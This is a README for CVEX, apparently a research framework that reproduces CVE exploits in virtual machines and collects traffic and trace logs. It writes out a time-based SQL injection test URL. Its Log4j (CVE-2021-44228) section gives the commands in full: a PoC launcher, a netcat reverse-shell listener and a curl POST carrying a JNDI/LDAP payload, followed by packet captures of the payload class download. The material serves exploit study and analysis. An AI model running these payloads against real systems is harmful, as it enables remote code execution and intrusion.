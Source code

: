 # CVEX: eXecutable CVEs

What is CVEX?

CVEX is a framework for the reproducible exploitation of CVE vulnerabilities:
- Provides blueprints of pre-made exploitation setups, pre-configured with metadata collection facilities (raw traffic, HTTP/S requests, system calls/API calls).
- Uses virtualization to instantiate the blueprint and automatically execute the attack, supporting live analysis of exploitation.
- Separates infrastructure from CVE-related configuration allowing for reuse of blueprints.
- Incentivizes contributors to share reproducible exploits.

Tech stack:
- Virtualization: Vagrant
- Installation and configuration: Ansible
- Network traffic collection: tcpdump
- HTTPS collection: mitmproxy
- Linux syscall collection: strace
- Windows API collection: Process Monitor

## Installation

```
python3 -m venv venv
source venv/bin/activate
pip install -e .
sudo apt update
sudo apt install virtualbox virtualbox-ext-pack
```

While in theory Vagrant should work with any VM provider, CVEX was tested only with VirtualBox.

## Run

Execute CVE by providing the CVEX record folder to the `cvex` command:
```
~/CVEX$ cvex records/CVE-0000-00001
```

CVEX comes with a set of PoCs:
- [CVE-0000-00000](records/CVE-0000-00000): curl, executed on Windows, downloads a web-page from ngix, running on Ubuntu

<details>

<summary>Execution of CVE-0000-00000</summary>


[records/CVE-0000-00000/cvex.yml](records/CVE-0000-00000/cvex.yml) describes the VM infrastructure for this PoC:
```
blueprint: windows10-ubuntu2204
ubuntu:
  trace: nginx
  playbook: linux.yml
windows:
  trace: "curl"
  command: "curl https://ubuntu/index.html?cat=(select*from(select(sleep(15)))a)"
```

Full list of parameters of a CVEX record:
```
blueprint: ...   # Blueprint name from the "blueprints" folder
ports: ...       # HTTPS port(s) as integer or list of integers (optional; 443 by default)
...:             # Name of the VM as in the blueprint
  trace: ...     # Name of the process for API tracing (optional); for Windows: partial name of the process; for Linux: regular expression
  playbook: ...  # Ansible playbook (optional)
  command: ...   # Command or list of commands to execute on this VM (optional)
...:
  trace: ...
  playbook: ...
  command: ...
...
```

`command` is treated in a special way:
1. `%vm_name%` will be replaced with the IP address of the VM: `curl https://%ubuntu%:8080/` will turn into `curl https://192.168.56.3:8080/`
2. Optional `&` at the end of the command tells CVEX that it is non-blocking: for `curl https://%ubuntu%:8080/&` CVEX executes `curl https://192.168.56.3:8080/`, and then immediately executes next command without waiting for curl to finish execution
3. Optional `~~~` splits the command into two parts: 1) the command; 2) the message: for `curl https://%ubuntu%:8080/&~~~Downloaded` CVEX executes `curl https://192.168.56.3:8080/`, then waits until curl prints `Downloaded` to stdout, and then immediately executes next command without waiting for curl to finish execution

CVEX blueprints define minimal network deployments:
- Ubuntu host attacking Window host
- Window host attacking Ubuntu host
- Ubuntu host attacking multiple Windows hosts
- ...

Contributors can provide additional blueprints. In the case of CVE-0000-00000 the blueprint `windows10-ubuntu2204` is stored in [blueprints/windows10-ubuntu2204/blueprint.yml](blueprints/windows10-ubuntu2204/blueprint.yml):
```
windows:
  image: "gusztavvargadr/windows-10"
  version: "2202.0.2404"
  type: "windows"
ubuntu:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
```

Full list of parameters of a blueprint:
```
...:             # Name of the VM
  image: ...     # Vagrant image
  version: ...   # Vagrant image version
  type: ...      # "windows" or "linux"
  playbook: ...  # Ansible playbook (optional)
...:
  image: ...
  version: ...
  type: ...
  playbook: ...
...
```

At first, CVEX pulls an Ubuntu VM from the Vagrant repository and stores the config file of the VM in `~/.cvex/router`. This VM will be the router. It also creates the `clean` snapshot with the initial state of the VM:
```
~/CVEX$ cvex records/CVE-0000-00000
2024-09-13 13:52:30,081 - INFO - [router] Retrieving status of router...
2024-09-13 13:52:32,820 - INFO - [router] Initializing a new VM router at /home/john/.cvex/router...
2024-09-13 13:52:33,766 - INFO - [router] Starting the VM router...
2024-09-13 13:54:41,199 - INFO - [router] Creating snapshot 'clean' for VM router (192.168.56.2)...
```

Ansible playbooks from [ansible](/ansible) are used to pre-configure VMs. CVEX runs the [ansible/router.yml](/ansible/router.yml) Ansible playbook before creating the `router` snapshot:
```
2024-09-13 13:54:56,344 - INFO - [router] Executing Ansible playbook ansible/router.yml...
2024-09-13 13:54:58,042 - INFO - [router] 
2024-09-13 13:54:58,043 - INFO - [router] PLAY [Router] ******************************************************************
2024-09-13 13:54:58,043 - INFO - [router] 
2024-09-13 13:54:58,043 - INFO - [router] TASK [Gathering Facts] *********************************************************
2024-09-13 13:55:01,136 - INFO - [router] [WARNING]: Platform linux on host router is using the discovered Python
2024-09-13 13:55:01,137 - INFO - [router] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 13:55:01,137 - INFO - [router] interpreter could change the meaning of that path. See
2024-09-13 13:55:01,137 - INFO - [router] https://docs.ansible.com/ansible-
2024-09-13 13:55:01,137 - INFO - [router] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 13:55:01,162 - INFO - [router] ok: [router]
2024-09-13 13:55:01,162 - INFO - [router] 
2024-09-13 13:55:01,166 - INFO - [router] TASK [Pull mitmproxy-10.3.1-linux-x86_64.tar.gz] *******************************
2024-09-13 13:55:20,994 - INFO - [router] changed: [router]
2024-09-13 13:55:20,994 - INFO - [router] 
2024-09-13 13:55:20,994 - INFO - [router] TASK [Run mitmdump] ************************************************************
2024-09-13 13:55:21,824 - INFO - [router] changed: [router]
2024-09-13 13:55:21,824 - INFO - [router] 
2024-09-13 13:55:21,824 - INFO - [router] TASK [Wait for ~/.mitmproxy] ***************************************************
2024-09-13 13:55:25,603 - INFO - [router] ok: [router]
2024-09-13 13:55:25,603 - INFO - [router] 
2024-09-13 13:55:25,603 - INFO - [router] TASK [Kill mitmdump] ***********************************************************
2024-09-13 13:55:26,131 - INFO - [router] changed: [router]
2024-09-13 13:55:26,131 - INFO - [router] 
2024-09-13 13:55:26,131 - INFO - [router] TASK [Copy certindex] **********************************************************
2024-09-13 13:55:27,643 - INFO - [router] changed: [router]
2024-09-13 13:55:27,643 - INFO - [router] 
2024-09-13 13:55:27,643 - INFO - [router] TASK [Copy default.cfg] ********************************************************
2024-09-13 13:55:29,027 - INFO - [router] changed: [router]
2024-09-13 13:55:29,027 - INFO - [router] 
2024-09-13 13:55:29,027 - INFO - [router] TASK [Generate CRL] ************************************************************
2024-09-13 13:55:29,556 - INFO - [router] changed: [router]
2024-09-13 13:55:29,557 - INFO - [router] 
2024-09-13 13:55:29,557 - INFO - [router] TASK [Convert CRL from PEM to DER] *********************************************
2024-09-13 13:55:30,088 - INFO - [router] changed: [router]
2024-09-13 13:55:30,088 - INFO - [router] 
2024-09-13 13:55:30,088 - INFO - [router] TASK [Fetch root.crl] **********************************************************
2024-09-13 13:55:30,711 - INFO - [router] changed: [router]
2024-09-13 13:55:30,711 - INFO - [router] 
2024-09-13 13:55:30,711 - INFO - [router] TASK [Fetch mitmproxy-ca-cert.cer] *********************************************
2024-09-13 13:55:31,336 - INFO - [router] changed: [router]
2024-09-13 13:55:31,336 - INFO - [router] 
2024-09-13 13:55:31,336 - INFO - [router] PLAY RECAP *********************************************************************
2024-09-13 13:55:31,337 - INFO - [router] router                     : ok=11   changed=9    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 13:55:31,461 - INFO - [router] Creating snapshot 'router' for VM router (192.168.56.2)...
```

After the router VM, CVEX runs the Windows VM:
```
2024-09-13 13:55:43,939 - INFO - [windows] Initializing a new VM windows at /home/john/.cvex/gusztavvargadr_windows-10/2202.0.2404/1...
2024-09-13 13:55:44,936 - INFO - [windows] Starting the VM windows...
```

Sometimes VM initialization takes longer than expected:
```
2024-09-13 14:03:41,858 - CRITICAL - [windows] VM windows timed out. Please wait until the VM is started and then re-start CVEX with the '-k' parameter.
```

In this case we need to wait until the VM is up and the OS is aready. For example, use the VirtualBox GUI. As soon as the OS fully loads, re-run CVEX with `-k`. With this parameter CVEX uses the VMs that are already running:
```
$ cvex records/CVE-0000-00000 -k
2024-09-13 14:25:18,880 - INFO - [router] Retrieving status of router...
2024-09-13 14:25:23,828 - INFO - [router] VM router (192.168.56.2) is already running
2024-09-13 14:25:26,910 - INFO - [router] Retrieving snapshot list of router...
2024-09-13 14:25:29,701 - INFO - [windows] Looking for a VM with CVE-0000-00000/windows snapshot...
2024-09-13 14:25:35,875 - INFO - [windows] Retrieving status of windows...
2024-09-13 14:25:41,071 - INFO - [windows] VM windows (192.168.56.3) is already running
2024-09-13 14:25:45,390 - INFO - [windows] Retrieving snapshot list of windows...
2024-09-13 14:25:51,738 - INFO - [windows] Creating snapshot 'clean' for VM windows (192.168.56.3)...
```

Be mindful, `cvex -k` will also leave the VMs running (which is great for debugging).

CVEX runs the [ansible/windows.yml](/ansible/windows.yml) Ansible playbook before creating the `CVE-0000-00000/windows` snapshot:
```
2024-09-13 14:26:30,209 - INFO - [windows] Executing Ansible playbook ansible/windows.yml...
2024-09-13 14:26:31,345 - INFO - [windows] 
2024-09-13 14:26:31,346 - INFO - [windows] PLAY [Windows] *****************************************************************
2024-09-13 14:26:31,346 - INFO - [windows] 
2024-09-13 14:26:31,346 - INFO - [windows] TASK [Gathering Facts] *********************************************************
2024-09-13 14:27:21,945 - INFO - [windows] ok: [windows]
2024-09-13 14:27:21,946 - INFO - [windows] 
2024-09-13 14:27:21,946 - INFO - [windows] TASK [Create C:\Tools] *********************************************************
2024-09-13 14:28:04,478 - INFO - [windows] changed: [windows]
2024-09-13 14:28:04,478 - INFO - [windows] 
2024-09-13 14:28:04,479 - INFO - [windows] TASK [Download Process Monitor] ************************************************
2024-09-13 14:28:42,227 - INFO - [windows] changed: [windows]
2024-09-13 14:28:42,227 - INFO - [windows] 
2024-09-13 14:28:42,227 - INFO - [windows] TASK [Unzip ProcessMonitor.zip] ************************************************
2024-09-13 14:29:19,518 - INFO - [windows] changed: [windows]
2024-09-13 14:29:19,518 - INFO - [windows] 
2024-09-13 14:29:19,518 - INFO - [windows] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-09-13 14:32:03,983 - INFO - [windows] changed: [windows]
2024-09-13 14:32:03,983 - INFO - [windows] 
2024-09-13 14:32:03,983 - INFO - [windows] TASK [Install mitmproxy-ca-cert.cer] *******************************************
2024-09-13 14:32:50,823 - INFO - [windows] changed: [windows]
2024-09-13 14:32:50,823 - INFO - [windows] 
2024-09-13 14:32:50,823 - INFO - [windows] TASK [Copy root.crl] ***********************************************************
2024-09-13 14:35:47,857 - INFO - [windows] changed: [windows]
2024-09-13 14:35:47,858 - INFO - [windows] 
2024-09-13 14:35:47,858 - INFO - [windows] TASK [Install root.crl] ********************************************************
2024-09-13 14:36:31,914 - INFO - [windows] changed: [windows]
2024-09-13 14:36:31,914 - INFO - [windows] 
2024-09-13 14:36:31,914 - INFO - [windows] PLAY RECAP *********************************************************************
2024-09-13 14:36:31,914 - INFO - [windows] windows                    : ok=8    changed=7    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 14:36:31,914 - INFO - [windows] 
2024-09-13 14:36:32,194 - INFO - [windows] Creating snapshot 'CVE-0000-00000/windows' for VM windows (192.168.56.3)...
```

After the Windows VM, CVEX runs the Ubuntu VM:
```
2024-09-13 14:37:03,308 - INFO - [ubuntu] Looking for a VM with CVE-0000-00000/ubuntu snapshot...
2024-09-13 14:37:05,749 - INFO - [ubuntu] Retrieving status of ubuntu...
2024-09-13 14:37:07,563 - INFO - [ubuntu] Initializing a new VM ubuntu at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1...
2024-09-13 14:37:09,382 - INFO - [ubuntu] Starting the VM ubuntu...
2024-09-13 14:40:50,765 - INFO - [ubuntu] Creating snapshot 'clean' for VM ubuntu (192.168.56.4)...
```

When the VM is up, CVEX runs the [ansible/linux.yml](/ansible/linux.yml) Ansible playbook:
```
2024-09-13 14:41:11,647 - INFO - [ubuntu] Executing Ansible playbook ansible/linux.yml...
2024-09-13 14:41:13,576 - INFO - [ubuntu] 
2024-09-13 14:41:13,576 - INFO - [ubuntu] PLAY [Linux] *******************************************************************
2024-09-13 14:41:13,576 - INFO - [ubuntu] 
2024-09-13 14:41:13,576 - INFO - [ubuntu] TASK [Gathering Facts] *********************************************************
2024-09-13 14:41:19,893 - INFO - [ubuntu] [WARNING]: Platform linux on host ubuntu is using the discovered Python
2024-09-13 14:41:19,893 - INFO - [ubuntu] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 14:41:19,893 - INFO - [ubuntu] interpreter could change the meaning of that path. See
2024-09-13 14:41:19,893 - INFO - [ubuntu] https://docs.ansible.com/ansible-
2024-09-13 14:41:19,894 - INFO - [ubuntu] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 14:41:19,921 - INFO - [ubuntu] ok: [ubuntu]
2024-09-13 14:41:19,922 - INFO - [ubuntu] 
2024-09-13 14:41:19,922 - INFO - [ubuntu] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-09-13 14:41:22,855 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:41:22,855 - INFO - [ubuntu] 
2024-09-13 14:41:22,856 - INFO - [ubuntu] TASK [Run update-ca-certificates] **********************************************
2024-09-13 14:41:34,967 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:41:34,967 - INFO - [ubuntu] 
2024-09-13 14:41:34,967 - INFO - [ubuntu] PLAY RECAP *********************************************************************
2024-09-13 14:41:34,968 - INFO - [ubuntu] ubuntu                     : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
```

[records/CVE-0000-00000/cvex.yml](records/CVE-0000-00000/cvex.yml) has an optional parameter `playbook: linux.yml` that specifies the custom Ansible playbook. In our case it installs nginx before creating the `CVE-0000-00000/ubuntu` snapshot:
```
2024-09-13 14:41:35,241 - INFO - [ubuntu] Executing Ansible playbook records/CVE-0000-00000/linux.yml...
2024-09-13 14:41:36,711 - INFO - [ubuntu] 
2024-09-13 14:41:36,711 - INFO - [ubuntu] PLAY [Linux target] ************************************************************
2024-09-13 14:41:36,711 - INFO - [ubuntu] 
2024-09-13 14:41:36,711 - INFO - [ubuntu] TASK [Gathering Facts] *********************************************************
2024-09-13 14:41:41,105 - INFO - [ubuntu] [WARNING]: Platform linux on host ubuntu is using the discovered Python
2024-09-13 14:41:41,105 - INFO - [ubuntu] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 14:41:41,106 - INFO - [ubuntu] interpreter could change the meaning of that path. See
2024-09-13 14:41:41,106 - INFO - [ubuntu] https://docs.ansible.com/ansible-
2024-09-13 14:41:41,106 - INFO - [ubuntu] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 14:41:41,138 - INFO - [ubuntu] ok: [ubuntu]
2024-09-13 14:41:41,138 - INFO - [ubuntu] 
2024-09-13 14:41:41,138 - INFO - [ubuntu] TASK [Install nginx 1.18.0] ****************************************************
2024-09-13 14:42:43,406 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:43,406 - INFO - [ubuntu] 
2024-09-13 14:42:43,406 - INFO - [ubuntu] TASK [Copy default.conf] *******************************************************
2024-09-13 14:42:45,154 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:45,154 - INFO - [ubuntu] 
2024-09-13 14:42:45,154 - INFO - [ubuntu] TASK [Copy certificate] ********************************************************
2024-09-13 14:42:46,761 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:46,761 - INFO - [ubuntu] 
2024-09-13 14:42:46,761 - INFO - [ubuntu] TASK [Copy key] ****************************************************************
2024-09-13 14:42:48,310 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:48,310 - INFO - [ubuntu] 
2024-09-13 14:42:48,310 - INFO - [ubuntu] TASK [Copy index.html] *********************************************************
2024-09-13 14:42:50,012 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:50,012 - INFO - [ubuntu] 
2024-09-13 14:42:50,012 - INFO - [ubuntu] TASK [Restart nginx] ***********************************************************
2024-09-13 14:42:51,638 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:51,638 - INFO - [ubuntu] 
2024-09-13 14:42:51,638 - INFO - [ubuntu] PLAY RECAP *********************************************************************
2024-09-13 14:42:51,639 - INFO - [ubuntu] ubuntu                     : ok=7    changed=6    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 14:42:51,639 - INFO - [ubuntu] 
2024-09-13 14:42:51,776 - INFO - [ubuntu] Creating snapshot 'CVE-0000-00000/ubuntu' for VM ubuntu (192.168.56.4)...
```

Every VM may have maximum 3 Ansible playbooks:
1. Configuration playbook ([ansible/linux.yml](/ansible/linux.yml)) - controlled by CVEX developers
2. Blueprint playbook (none in our case) - controlled by CVEX blueprint contributors
3. CVE playbook ([records/CVE-0000-00000/linux.yml](records/CVE-0000-00000/linux.yml)) - controlled by CVEX users

At this point all VMs (router, Windows, Ubuntu) are up and running, the needed software is installed and the needed VM snapshots are created. CVEX performs the following actions:
- Configures the hosts file on every VM except the router
- Sets up static network interface IP addresses on every VM
- Configures the routing so that all network traffic flows through the router VM
- Runs tcpdump on the router
- Runs mitmproxy on the router
- Runs strace on Linux VMs
- Runs Process Monitor on Windows VMs

```
2024-09-13 14:43:04,575 - INFO - [router] Executing 'ls /etc/netplan'...
2024-09-13 14:43:07,653 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-09-13 14:43:07,731 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-09-13 14:43:07,760 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-09-13 14:43:07,805 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-09-13 14:43:07,828 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-09-13 14:43:07,894 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-09-13 14:43:08,017 - INFO - [router] Executing 'sudo netplan apply'...
2024-09-13 14:43:12,316 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-09-13 14:43:12,402 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-09-13 14:43:12,531 - INFO - [windows] Executing 'netsh interface ipv4 show inter'...
2024-09-13 14:43:13,943 - INFO - [windows] Executing 'netsh interface ipv4 set interface 5 dadtransmits=0 store=persistent'...
2024-09-13 14:43:14,155 - INFO - [windows] Executing 'powershell "Get-NetAdapter -Name 'Ethernet 2' | New-NetIPAddress -IPAddress 192.168.56.3 -DefaultGateway 192.168.56.2 -PrefixLength 24"'...
2024-09-13 14:43:35,697 - INFO - [windows] Executing 'powershell "Disable-NetAdapter -Name 'Ethernet 2' -Confirm:$False"'...
2024-09-13 14:43:50,320 - INFO - [windows] Executing 'powershell "Enable-NetAdapter -Name 'Ethernet 2' -Confirm:$False"'...
2024-09-13 14:44:04,036 - INFO - [windows] Executing 'route DELETE 192.168.56.0'...
2024-09-13 14:44:04,156 - INFO - [windows] Executing 'route print'...
2024-09-13 14:44:04,339 - INFO - [windows] Executing 'route ADD 192.168.56.0 MASK 255.255.255.0 192.168.56.2 if 5'...
2024-09-13 14:44:04,463 - INFO - [windows] Downloading /C:\Windows\System32\drivers\etc\hosts...
2024-09-13 14:44:04,691 - INFO - [windows] Uploading /C:\Windows\System32\drivers\etc\hosts...
2024-09-13 14:44:04,713 - INFO - [ubuntu] Executing 'ls /etc/netplan'...
2024-09-13 14:44:07,449 - INFO - [ubuntu] Downloading /etc/netplan/00-installer-config.yaml...
2024-09-13 14:44:07,542 - INFO - [ubuntu] Downloading /etc/netplan/01-netcfg.yaml...
2024-09-13 14:44:07,613 - INFO - [ubuntu] Downloading /etc/netplan/50-vagrant.yaml...
2024-09-13 14:44:07,650 - INFO - [ubuntu] Uploading /tmp/cvex.yaml...
2024-09-13 14:44:07,698 - INFO - [ubuntu] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-09-13 14:44:07,749 - INFO - [ubuntu] Executing 'sudo ip link set eth1 up'...
2024-09-13 14:44:07,866 - INFO - [ubuntu] Executing 'sudo netplan apply'...
2024-09-13 14:44:11,357 - INFO - [ubuntu] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-09-13 14:44:11,452 - INFO - [ubuntu] Executing 'sudo systemctl restart ufw'...
2024-09-13 14:44:11,604 - INFO - [ubuntu] Downloading /etc/hosts...
2024-09-13 14:44:11,674 - INFO - [ubuntu] Uploading /tmp/hosts...
2024-09-13 14:44:11,693 - INFO - [ubuntu] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-09-13 14:44:11,772 - INFO - [router] Executing 'pkill mitmdump'...
2024-09-13 14:44:11,850 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-09-13 14:44:11,965 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-09-13 14:44:12,021 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-09-13 14:44:12,092 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-09-13 14:44:12,181 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-09-13 14:44:12,238 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-09-13 14:44:12,847 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-09-13 14:44:18,321 - INFO - [windows] Executing 'taskkill /IM Procmon.exe /F'...
2024-09-13 14:44:18,675 - INFO - [windows] Executing 'rmdir /S /Q C:\cvex'...
2024-09-13 14:44:18,765 - INFO - [windows] Executing 'mkdir C:\cvex'...
2024-09-13 14:44:18,852 - INFO - [windows] Uploading /C:\cvex\config.pmc...
2024-09-13 14:44:18,894 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /BackingFile C:\cvex\procmon.pml /LoadConfig C:\cvex\config.pmc /Quiet'...
2024-09-13 14:44:18,917 - INFO - [ubuntu] Executing 'sudo pkill strace'...
2024-09-13 14:44:19,008 - INFO - [ubuntu] Executing 'rm -rf /tmp/cvex'...
2024-09-13 14:44:19,078 - INFO - [ubuntu] Executing 'mkdir /tmp/cvex'...
2024-09-13 14:44:19,133 - INFO - [ubuntu] Executing 'ps -ax | egrep "nginx" | grep -v grep'...
2024-09-13 14:44:19,238 - INFO - [ubuntu] Executing 'sudo strace -p 3934 -o /tmp/cvex/ubuntu_strace_nginx_3934.log -v'...
2024-09-13 14:44:19,399 - INFO - [ubuntu] Executing 'sudo strace -p 3935 -o /tmp/cvex/ubuntu_strace_nginx_3935.log -v'...
2024-09-13 14:44:19,527 - INFO - [ubuntu] Executing 'sudo strace -p 3936 -o /tmp/cvex/ubuntu_strace_nginx_3936.log -v'...
```


At this point all VMs are ready to reproduce the CVE. CVEX executes the command from `cvex.yml`:
```
2024-09-13 14:44:19,648 - INFO - [windows] Executing 'curl https://ubuntu/index.html?cat=(select*from(select(sleep(15)))a)'...
```

The curl command has succeeded. CVEX downloads logs and puts them to the default output folder `out`:
- From router: tcpdump's PCAP file
- From router: mitmdump's log file
- From Windows: Process Monitor's log file
- From Linux: strace's log files

Parameter `-o` specifies custom output folder.

```
2024-09-13 14:44:21,063 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /Terminate'...
2024-09-13 14:44:30,975 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /OpenLog C:\cvex\procmon.pml /SaveAs C:\cvex\procmon.xml'...
2024-09-13 14:44:31,948 - INFO - [windows] Downloading /C:\cvex\procmon.pml...
2024-09-13 14:44:32,644 - INFO - [windows] Downloading /C:\cvex\procmon.xml...
2024-09-13 14:44:33,304 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3934.log...
2024-09-13 14:44:33,403 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3935.log...
2024-09-13 14:44:33,436 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3936.log...
2024-09-13 14:44:33,471 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-09-13 14:44:38,472 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-09-13 14:44:38,524 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
```
</details>

- [CVE-0000-00001](records/CVE-0000-00001): curl, executed on Ubuntu, downloads a web-page from ngix, running on another Ubuntu
- [CVE-0000-00002](records/CVE-0000-00002): curl, executed on Ubuntu, downloads a web-page from ngix, running on Windows
- [CVE-0000-00003](records/CVE-0000-00003): curl, executed on Windows, downloads a web-page from ngix, running on another Windows
- [CVE-2021-44228](records/CVE-2021-44228): Log4j vulnerability with backconnect to remote shell

<details>
<summary>CVE-2021-44228 logs analysis</summary>

[records/CVE-2021-44228/cvex.yml](records/CVE-2021-44228/cvex.yml) describes the VM infrastructure for this CVE:

```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  trace: "curl|python3|nc|java"
  command:
    - "python3 /opt/log4j-shell-poc/poc.py --userip %ubuntu2% --webport 9999 --lport 1234&~~~Listening on 0.0.0.0:1389"
    - "nc -nvlp 1234&~~~Listening on 0.0.0.0 1234"
    # Web server may not reply, which will cause curl to hang
    - "curl -d 'uname=%24%7Bjndi%3Aldap%3A%2F%2F%ubuntu2%%3A1389%2Fa%7D&password=' http://ubuntu1:8080/login&"
    - "sleep 10"
```

Ansible playbook `ubuntu1.yml` installs an Apache Tomcat based web application, vulnerable to the Log4j attack. Ansible playbook `ubuntu2.yml` installs a fake LDAP server and a web server that is hosting the payload.

Since the execution process has been already described in the section `Execution of CVE-0000-00000`, let's focus on analysis of logs produced by CVEX. In our logs the IP address of `ubuntu1` is `192.168.56.3`, the IP address of `ubuntu2` is `192.168.56.4`.

To inspect the PCAP file, run tcpdump:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

The attacker `192.168.56.4` (`ubuntu2`) issues an HTTP POST request to Apache Tomcat running on `192.168.56.3` (`ubuntu1`). The POST request contains malicious data `${jndi:ldap://192.168.56.4:1389/a}` in the `uname` field. The data is URL-encoded:
```
15:34:03.050477 IP 192.168.56.4.36880 > 192.168.56.3.8080: tcp 219
E....t@.@.....8...8.....:.u................
.....$C.POST /login HTTP/1.1
Host: ubuntu1:8080
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 68
Content-Type: application/x-www-form-urlencoded

uname=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.4%3A1389%2Fa%7D&password=
```

Log4j logs the `${jndi:ldap://192.168.56.4:1389/a}` string. This triggers the JNDI manager to make a request to the LDAP server controlled by the attacker (`192.168.56.4:1389`). The LDAP server replies with a link to the payload:
```
15:34:04.187067 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.@.d...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.187088 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.?.e...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.191353 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 14
E..B..@.@.em..8...8..m.V.:..Z3.I...........
.....$G.0....e.
......
```

JNDI manager requests the payload hosted on `http://192.168.56.4:9999/Exploit.class`:
```
15:34:04.229544 IP 192.168.56.3.41350 > 192.168.56.4.9999: tcp 213
E..	@.@.>.	...8...8...'...._96.............
.$Ha...8GET /Exploit.class HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_102
Host: 192.168.56.4:9999
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Web server `192.168.56.4:9999` replies with the payload:
```
15:34:04.385348 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 198
E.....@.?..#..8...8.'...96.....4...........
.....$HaHTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.12
Date: Wed, 09 Oct 2024 13:33:51 GMT
Content-type: application/java-vm
Content-Length: 1361
Last-Modified: Wed, 09 Oct 2024 13:33:48 GMT

15:34:04.408072 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 1361
E.....@.@.|...8...8.'...96.c...4...........
.....$I........4.f
...-...../..0..1
...2
...3
...4..5
.	.6
.7.8
.7.9
.	.8
.7.:
.	.:
.	.;
.<.=
.<.>
.?.@
.?.A........2
.B.C
.7.D..E
.7.F
.	.G..H..I...<init>...()V...Code...LineNumberTable...StackMapTable..H..1..J..5..K..L..E..
Exceptions..
